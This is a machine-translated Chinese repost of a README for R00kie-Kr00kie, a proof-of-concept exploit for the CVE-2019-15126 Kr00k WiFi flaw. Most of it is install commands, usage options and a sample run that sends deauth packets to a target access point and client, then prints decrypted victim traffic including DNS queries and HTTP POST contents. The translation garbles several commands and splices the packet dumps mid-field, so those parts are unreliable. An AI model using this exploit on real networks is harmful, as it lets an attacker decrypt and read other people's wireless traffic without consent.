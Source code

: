# R00kie-Kr00kie:针对 CVE-2019-15126 Kr00k 漏洞的 PoC 利用

> -= the last fantasy =-荣誉出品本字幕仅供学习交流，严禁用于商业途径

[![R00kie-Kr00kie : PoC Exploit For The CVE-2019-15126 Kr00k Vulnerability](img/30b7ae2d4f1191657b6635bead06d476.png "R00kie-Kr00kie : PoC Exploit For The CVE-2019-15126 Kr00k Vulnerability")](https://1.bp.blogspot.com/-kM-ifuX4gIU/XobfiwwXOLI/AAAAAAAAFy0/oi0xVGRzAdcGpw-cw367OVdYxtcXNJUSwCLcBGAsYHQ/s1600/r00kie-kr00kie.png)

**R00kie-Kr00kie** 是针对 CVE-2019-15126 kr00k 漏洞的 PoC 利用。本项目仅用于教育目的，不得用于违法或个人获利。本项目的作者不对材料可能造成的任何伤害负责。

**要求**

要使用这些脚本，您需要一个支持带有帧注入的活动监视器模式的 WiFi 卡。我们推荐我们用来开发和测试代码的 Atheros AR9280 芯片(IEEE 802.11n)。我们已经在 **Kali Linux** 上测试了这个概念验证

**安装**

**#克隆主回购**
git 克隆 https://github.com/hexway/r00kie-kr00kie.git&&CD。/r00kie-kr00kie
**#安装依赖关系**
sudo pip 3 install-r requirements . txt

**也可阅读-[MSSQL proxy:在受限环境中执行横向移动的工具包](https://kalilinuxtutorials.com/mssqlproxy/)**

**如何使用？**

脚本:T2[kr00ki . py](https://github.com/hexway/r00kie-kr00kie/blob/master/r00kie-kr00kie.py)

这是实现 **kr00k** 攻击的主要利用文件。

**->~:python 3 r 00k ie-kr 00k ie . py-h**

**用法:** r00kie-kr00kie.py [-h] [-i 接口] [-l 通道] [-b BSSID]
[-c 客户端][-n DEAUTH _ NUMBER][-d DEAUTH _ DELAY]
[-p PCAP _ PATH _ READ][-r PCAP _ PATH _ RESULT][-q]

【T10 –CHANNEL CHANNEL
设置无线接口的信道(默认:1)
-b BSSID，–BSSID BSSID
设置 WiFi AP BSSID(例:“01:23:45:67:89:0a”)
-c CLIENT，–CLIENT CLIENT
设置 WiFi 客户端 MAC 地址(例:
“01:23:45:67:89:0b”)
-n de auth _ NUMBER，–de auth _ NUMBER de auth _ NUMBER –pcap _ PATH _ READ pcap _ PATH _ READ
设置读取加密数据包的 PCAP 文件路径
-r PCAP_PATH_RESULT，–pcap _ PATH _ RESULT PCAP _ PATH _ RESULT
设置写入解密数据包的 PCAP 文件路径
-q，–quiet 最小输出

为了开始攻击，你需要知道接入点的 *bssid* ，它的*信道*和受害者的 *mac 地址*。您可以使用`airodump-ng wlan0`实用程序找到它们。

**运行漏洞利用:**

**->~:python 3 r 00 kie-kr 00 kie . py-I WLAN 0-b D4:38:9C:82:23:7A-c88:C9:D0:FB:88:D1-l 11**

**【！]杀死阻止监视器模式的进程！
[ *]无线接口:wlan0 已处于模式监视器[* ]设置无线接口上的信道:11:WLAN 0
[*]发送 5 个 deauth 数据包到:88:C9:D0:FB:88:D1 来自:D4:38:9C:82:23:7A [* ]发送 5 个 deauth 数据包到:88:C9:D0:FB:88:D1 来自:D4:38:9C:82:23:23** dst = D4:38:9c:82:23:7a
src = 88:C9:d0:FB:88:D1
type = IP v4
**【IP】**
version = 4
IHL = 5
tos = 0x 0
len = 60
id = 30074
flags = DF
frag = 0【T31
**【UDP】**
sport = 60744
dport = domain
len = 40
chksum = 0xa 649
**【DNS】**
id = 55281
QR = 0
opcode = QUERY
aa = 0
TC = 0
rd = 1
ra = 0
z = 0
ad = 0
CD = 0
rcode = ok
qdcount = 1
an count = 0
ns count = 0
arcount = 0

|###[ DNS 问题记录]# # #
| qname = ' g . whatsapp . net . '
| qtype = A
| q class = IN
an = None
ns = None
ar = None

**[+]得到一个 kr00ked 包:
【以太网】**
dst = D4:33 version = 4
IHL = 5
tos = 0x 0
len = 60
id = 30075
flags = DF
frag = 0
TTL = 64
proto = UDP
chk sum = 0x CCE 0
src = 192 . 168 . 43 . 161
dst = 8.8.4.4

**【UDP】**
sport = 60744
dport = domain
len = 40
chksum = 0x 104 b
**【DNS】** id = 28117
QR = 0
opcode = QUERY
aa = 0
TC = 0
rd = 1
ra = 0
z = 0
ad = 0
CD = 0
rcode = ok
qd count = 1
an count = 0
ns count = 0

另外，如果您已经在`kr00t`攻击后拦截了流量(pcap 文件),您可以解密:

**->~:python3 r00kie-kr00kie.py -p encrypted_packets.pcap**

**[*] Read packets from: encrypted_packets.pcap …. [*] All packets are read, packet analysis is in progress ….**

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[IP]**
version = 4
ihl = 5
tos = 0x0
len = 490
id = 756
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0xd0ca
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 34789
dport = 1337
seq = 3463744441
ack = 3909086929
dataofs = 8
reserved = 0
flags = PA
window = 1369
chksum = 0x65ee
urgptr = 0
options = [(‘NOP’, None), (‘NOP’, None), (‘Timestamp’, (1084858, 699843440))]
**[ Raw ]**
load = ‘POST /post_form.html HTTP/1.1\r\nHost: sfdsfsdf:1337\r\nConnection: keep-alive\r\nContent-Length: 138240\r\nOrigin: http://sfdsfsdf.ch:1337\r\nUser-Agent: Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.101 Mobile Safari/537.36\r\nContent-Type: application/json\r\nAccept: */*\r\nReferer: http://sfdsfsdf.ch:1337/post_form.html\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9,ru;q=0.8\r\n\r\n’

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 60
id = 42533
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x2f47
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 34792
dport = 1337
seq = 71773087
ack = 0
dataofs = 10
reserved = 0
flags = S
window = 65535
chksum = 0x97df
urgptr = 0
options = [(‘MSS’, 1460), (‘SAckOK’, b”), (‘Timestamp’, (1084858, 0)), (‘NOP’, None), (‘WScale’, 6)]

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 1460
id = 35150
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x46a6
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 36020
dport = 1337
seq = 395101552
ack = 1111748198
dataofs = 8
reserved = 0
flags = A
window = 1369
chksum = 0x35d2
urgptr = 0
options = [(‘NOP’, None), (‘NOP’, None), (‘Timestamp’, (1113058, 700129572))]
**[ Raw ]**
load = “pik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can”

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 60
id = 17897
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x8f83
src = 192.168.43.161
dst = 95.85.25.177
\options \
**[ TCP ]**
sport = 36266
dport = 1337
seq = 3375779416
ack = 0
dataofs = 10
reserved = 0
flags = S
window = 65535
chksum = 0x2c7d
urgptr = 0
options = [(‘MSS’, 1460), (‘SAckOK’, b”), (‘Timestamp’, (1117105, 0)), (‘NOP’, None), (‘WScale’, 6)]
**[+] Found 4 kr00ked packets and decrypted packets saved in: kr00k.pcap**

**脚本**:[traffic _ generator . py](https://github.com/hexway/r00kie-kr00kie/blob/master/traffic_generator.py)

该脚本从受害者处生成`UDP`流量，以演示`kr00k`攻击

--> ~:python 3 traffic _ generator . py
向 8.8.8.8 上的 UDP 端口 53 发送有效负载
按 Ctrl+C 退出

[**Download**](https://github.com/hexway/r00kie-kr00kie)